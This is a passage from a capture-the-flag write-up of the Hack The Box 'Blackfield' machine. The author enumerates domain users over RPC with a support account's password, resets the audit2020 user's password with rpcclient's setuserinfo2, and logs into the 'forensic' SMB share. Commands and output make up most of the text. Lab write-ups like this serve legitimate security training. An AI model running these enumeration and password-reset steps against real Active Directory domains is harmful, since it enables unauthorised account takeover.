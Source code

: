 Checked them all but nothing seems useful

## RPC Enumeration

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield/BloodHound# rpcclient -U 'support%#00^BlackKnight' 10.10.10.192
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[BLACKFIELD764430] rid:[0x451]
user:[BLACKFIELD538365] rid:[0x452]
.
.
.
.
.
user:[BLACKFIELD307633] rid:[0x57e]
user:[BLACKFIELD758945] rid:[0x57f]
user:[BLACKFIELD541148] rid:[0x580]
user:[BLACKFIELD532412] rid:[0x581]
user:[BLACKFIELD996878] rid:[0x582]
user:[BLACKFIELD653097] rid:[0x583]
user:[BLACKFIELD438814] rid:[0x584]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]
rpcclient $>
```

> [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

```nix
rpcclient $> setuserinfo2 audit2020 23 'ASDqwe123'
rpcclient $>
```

This time I tried login in `forensic` share and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Blackfield# smbclient //10.10.10.192/forensic -U 'audit2020'
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 18:33:16 2020
  ..                                  D        0  Sun Feb 23 18:33:16 2020
  commands_output                     D        0  Sun Feb 23 23:44:37 2020
  memory_analysis                     D        0  Fri May 29 01:58:33 2020
  tools                               D        0  Sun Feb 23 19:09:08 2020

		7846143 blocks of size 4096. 4095546 blocks available
smb: \>
```
